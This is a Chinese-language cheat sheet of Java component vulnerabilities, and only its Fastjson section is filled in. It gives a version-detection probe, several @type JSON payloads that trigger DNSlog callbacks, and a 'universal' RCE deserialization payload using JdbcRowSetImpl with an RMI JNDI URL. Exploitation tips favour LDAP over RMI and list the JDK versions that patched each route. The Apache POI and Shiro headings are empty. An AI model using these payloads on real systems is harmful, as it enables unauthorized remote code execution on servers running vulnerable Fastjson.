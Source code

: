 

# JAVA组件漏洞


- [Fastjson](#Fastjson)

- [Apache-Poi](#Apache-poi)

- [Shiro](#Shiro)

  

## Fastjson

### 查看版本

From [浅蓝](https://b1ue.cn/archives/402.html)```1.{"@type":"java.lang.AutoCloseable"```


### 版本 <= 1.2.48

### 回显 

```
======= 回显 =======
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL", "val":"dnslog"}]
Set[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0
```

### RCE

```
======= 通杀payload =======
{
    "rand1": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "rand2": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://127.0.0.1:1099/aaa",
      "autoCommit": true
    }
}
```

### 利用要点

(备注：根据实战中经验，更推荐使用Ldap协议进行漏洞利用）

RMI协议的利用方式 在JDK 6u132/7u122/8u113 及以上版本中修复了

LDAP协议的利用方式 在JDK 6u211/7u201/8u191 及以上版本中修复了

LDAP的利用方式要优于RMI, 且LDAP可以直接返回序列化对象, 绕过更高版本的JDK限制

当发现一台Redis的数据中含有@type的字样时，意味着AutoType多半是开的



## Apache-poi

## Shiro

